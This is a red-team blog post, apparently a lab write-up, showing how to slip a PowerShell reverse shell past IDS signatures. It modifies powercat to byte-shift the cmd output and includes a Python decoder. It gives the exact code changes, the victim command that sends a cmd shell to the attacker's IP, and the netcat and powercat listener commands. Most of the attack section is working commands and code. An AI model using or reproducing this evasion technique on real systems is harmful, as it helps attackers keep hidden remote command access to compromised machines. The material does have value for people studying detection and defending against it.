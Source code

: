 ```yaml
---
layout: post
title: "2024-06-18-bypassing ids signatures with simple reverse shells"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /bypassing-ids-signatures-with-simple-reverse-shells/
---
```


# Bypassing IDS Signatures with Simple Reverse Shells

Most Intrusion Detection Systems (IDS) have signatures that can catch simple reverse shells going across the network.&#x20;

The thing that will get you flagged usually is the classic cmd prompt banner:

```
listening on [any] 443 ...
connect to [192.168.2.79] from ws01 [192.168.2.149] 56079
Microsoft Windows [Version 10.0.17763.475]
(c) 2018 Microsoft Corporation. All rights reserved.
```

This can usually be bypassed relatively easily with some simple traffic obfuscation and this quick lab demonstrates just that.

```
**Warning**\
This technique is not meant to be used in real life red team operations!
```

## Environment and Setup

* Victim's Windows system capable of running powershell scripts
* Victim's system runs Powercat - netcat's Powershell implementation
* Attacker's Windows machine with a powercat listener
* Attacker's Linux machine with a netcat listener

## Execution - Encoding Responses

Since we want to obfuscate the outgoing traffic from the victim system to the attacking system, we need to obfuscate the responses generated by the reverse shell.

Let's modify powercat to achieve this. Int this lab, I will use a simple obfuscation technique - every ascii character will be shifted to the right by 1, so `a` will become `b`, `b->c`, `c->d` and so on, but base64 or any other encoding mechanisms could work.

In powercat.ps1, let's find the function `ReadData_CMD` and add a new line (576 from the below graphic):

```csharp
$Data = $Data | % {[byte]$_+1}
```

![](<../../.gitbook/assets/Annotation 2019-05-18 121935 (1).png>)

With the modified powercat, let's try establishing a reverse shell and catch it on the other end and see what happens:

```csharp
# victim
powercat -c 192.168.2.79 443 -e cmd

#attacker 
powercat -l -p 443 -v
```

Below shows the incoming reverse shell, but it's of course not readable since we shifted all the characters by one. Although this is enough to bypass IDS signatures relying on the cmd prompt banner crossing the network, the shell on itself is not very useful since we cannot read the results:

![](<../../.gitbook/assets/Annotation 2019-05-18 123445.png>)

## Decoding Responses

We need to decode the responses by using the code we used earlier and make sure that we are now subtracting 1 rather than adding, so that `d` becomes `c`, `c->b`, `b->a` and so on:

```csharp
$Data = $Data | % {[byte]$_-1}
```

In powercat.ps1, find the function `WriteData_Console` and add the code just below the parameter declaration:

![](<../../.gitbook/assets/Annotation 2019-05-18 124925.png>)

If we try establishing the reverse shell now, we can see it gets decoded nicely on the attacking system running powercat listener on Windows:

![](<../../.gitbook/assets/Annotation 2019-05-18 124837.png>)

If we inspect the traffic, we confirm that the traffic is encoded:

![](<../../.gitbook/assets/Annotation 2019-05-18 130428.png>)

## Decoding Responses in Linux

If we are listening for a shell in netcat on a Linux box with no powershell (my kali was giving me a hard time trying to install powershell), we need to hack together a filthy python loop that will do the decoding for us first:

{% code title="decode.py@kali" %}
```python
#!/usr/bin/python3
import os, time

global decoded
while 1:
    decoded = ""
    encodedFile = open("myfile", "rb+")
    i = 0
    last = ""
    encodedBytes = encodedFile.read()

    for byte in encodedBytes:
        if byte > 0 and byte <= 127:
            byte -= 1
        else:
            byte = 10

        if byte != last:
            decoded += chr(byte)
            last = byte
        i += 1

    if len(decoded) > 1:
        print(decoded)
    os.system("echo > myfile")
    time.sleep(1)
```
{% endcode %}

Let's launch the netcat listener on a linux box and pipe the output to `tee` so it can be put to a file `myfile`

{% code title="attacker@kali" %}
```
nc -lvvp 443 | tee myfile
```
{% endcode %}

In another terminal, we need to launch the `decoder.py` which will read the `myfile` every second and will decode its content and wipe it:

{% code title="attacker@kali" %}
```
./decoder.py
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-18 132903.png>)

We can now send the reverse shell back from the windows machine and see how it works:

* Right - a compromised Windows system that will send a reverse shell to the attacker using powercat
* Top left - the reverse shell comes in, responses are encoded. This is where we can issue commands
* Bottom left - reverse shell responses are decoded

![](../../.gitbook/assets/revshell.gif)
@spotheplanet
